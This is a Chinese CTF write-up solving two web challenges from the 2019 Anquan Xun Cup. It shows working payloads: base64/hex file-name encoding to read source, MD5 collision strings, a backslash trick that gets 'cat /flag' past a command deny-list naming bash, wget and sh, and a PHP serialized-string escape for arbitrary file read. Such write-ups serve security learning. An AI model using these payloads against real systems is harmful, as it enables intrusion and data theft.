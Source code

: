 # 安洵杯 2019

## Web

### easy\_web

进入页面后可以获得 Hint `md5 is funny ~` ，并且从 URL 可以发现 payload 如下

```url
?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=
```

在开发者工具 - Elements 中将 `background` 注释掉方便查看回显。

尝试传入以下 Payload

```url
img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=ls
img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=echo
```

回显 `forbid ~` ，说明均被过滤了，尝试将 `img` 的值删除回显时图片消失，说明图片时通过 `img` 引入的。

将 `TXpVek5UTTFNbVUzTURabE5qYz0` 丢进 CyberChef 一把梭可以得到经过两次 base64 解码以及一次 16 进制转字符串的值 `555.png`

!\[easy\_web-1]\(E:\ICloud\iCloudDrive\Note\CTF\安洵杯 2019\easy\_web-1.png)

那就反其道而行之，将 `index.php` 的值以上面的逆序进行转换得到值 `TmprMlpUWTBOalUzT0RKbE56QTJPRGN3`

!\[easy\_web-2]\(E:\ICloud\iCloudDrive\Note\CTF\安洵杯 2019\easy\_web-2.png)

将得到的值进行传入，Payload 如下

```url
img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3&cmd=
```

回显后进行 base64 解码可以得到 `index.php` 的源码

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixiï½ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
```

想要执行系统命令就需要进行 md5 强比较绕过，这里进行了 string 强制类型转换，所以只能通过碰撞找出 md5 值相同的两个字符串了，可以通过 fastroll 进行生成，也可以在网上找生成好的，构造 Payload(body) 如下

```url
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

回显时 `md5 is funny ~` 消失了，说明绕过成功了，之后就是绕过黑名单，虽然空格没有过滤，但是还是没找到突破口，通过百度才发现 PHP 正则替换存在一个特别的情况。当我们想过滤 `\` 的时候，我们会想到用 `\\` 来解决，但是实际上并没有实现过滤，因为 PHP 会先进行一次解析，这时候我们要过滤的实际变成空白，所以要想过滤 `\` 需要使用 `\\\\` 来解决，这时候 PHP 进行解析后变成 `\\` ，这就匹配成功了。

因此上述正则中的 `|\\|\\\\|` 其实是 `|\|\\|` ，也就是过滤了 `|\` ，并没有过滤 `\` 。故可以通过构造如下 Payload 进行绕过

```url
img=&cmd=c\at /flag
```

这时候这道题就结束了。

### easy\_serialize\_php

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST); // 构造变量

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

当 `$function == 'show_image'` 时，会输出 `$userinfo['img']` 的内容，因此下一步就是修改 `$userinfo['img']` 的值。

在源码上方存在 `extract($_POST);` 因此可以通过该函数进行传值，但是传入的值会被后面的 `$_SESSION['img']` 顶掉，所以这题需要通过 `filter()` 函数进行反序列化字符串逃逸。

先根据提示在 `phpinfo()` 中找到了 `d0g3_f1ag.php` ，猜测 flag 就在这里。

通过输出 `$serialize_info` 的序列化可以得到回显如下

```
s:84:"a:3:{s:4:"user";s:5:"guest";s:8:"function";N;s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}";
```

通过传入 Payload 如下

```
_SESSION[flagflag]=";i:1;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

即可使得序列化字符串变为

```
s:104:"a:2:{s:8:"";s:45:"";i:1;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}";
```

此时再进行反序列化则会得到

```
array(2) { ["";s:45:""]=> int(1) ["img"]=> string(20) "ZDBnM19mMWFnLnBocA==" }
```

验证逃逸成功，再设置 `param:f=show_image` 即可得到 `d0g3_f1ag.php` 源代码如下

```php
<?php
$flag = 'flag in /d0g3_fllllllag';
?>
```

那就将 `/d0g3_fllllllag` base64 编码得到 `ZDBnM19mbGxsbGxsYWc=` ，这时的 Payload 如下

```
_SESSION[flagflag]=";i:1;s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
```

就可以得到 flag 力。
